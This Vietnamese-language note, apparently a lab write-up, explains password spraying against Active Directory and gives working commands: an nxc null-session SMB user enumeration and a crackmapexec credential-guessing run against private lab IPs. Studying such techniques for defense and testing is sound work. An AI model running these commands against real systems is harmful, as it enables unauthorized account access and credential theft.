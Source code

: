 ### Tấn công Password Spraying là một kỹ thuật tấn công brute-force được sử dụng để lấy thông tin đăng nhập hợp lệ trong Active Directory hoặc các hệ thống xác thực khác. Thay vì thử nhiều mật khẩu khác nhau cho một người dùng (điều này sẽ nhanh chóng khóa tài khoản), kẻ tấn công sẽ thử một mật khẩu chung cho nhiều tài khoản khác nhau .

```
Những điểm chính:

Lợi dụng thực tế là nhiều người dùng sử dụng lại mật khẩu yếu hoặc dễ đoán (ví dụ: Summer2024 , Welcome1 ).

Giúp tránh bị khóa tài khoản vì mỗi tài khoản chỉ được thử một lần trong mỗi vòng.

Có thể thực hiện trên nhiều dịch vụ như LDAP, Kerberos, SMB, RDP, OWA, VPN, SSH và FTP .

Thường kết hợp với việc liệt kê người dùng để nhắm mục tiêu vào tên người dùng hợp lệ.
```

- LDAP là dùng để truy cập và quản lý thông tin trong 1 dịch vụ thư mục tập trung.

- Nói ngắn: lệnh này cố gắng liệt kê user qua SMB/NetBIOS/LDAP (tùy chức năng nxc) bằng kết nối không xác thực, rồi lưu kết quả vào Users.txt.

```
nxc smb 192.168.200.129 -u '' -p '' --users-export Users.txt
```
<img width="1331" height="342" alt="image" src="https://github.com/user-attachments/assets/898434a7-b8c7-4705-9493-73033ba197c1" />

- cố gắng thử nhiều cặp username×password trên SMB, nên về hành vi nó là một dạng tấn công xác thực (credential guessing). Nhưng gọi nó là “brute-force” hay “password spraying” phụ thuộc vào cách bạn dùng Users.txt và passAD.txt.

```
crackmapexec smb 192.168.200.127 -u Users.txt -p passAD.txt --continue-on-success | grep -v "STATUS_LOGON_FAILURE""
```

<img width="1421" height="195" alt="image" src="https://github.com/user-attachments/assets/6ee70457-4ef2-4e92-b295-eb59e208932b" />
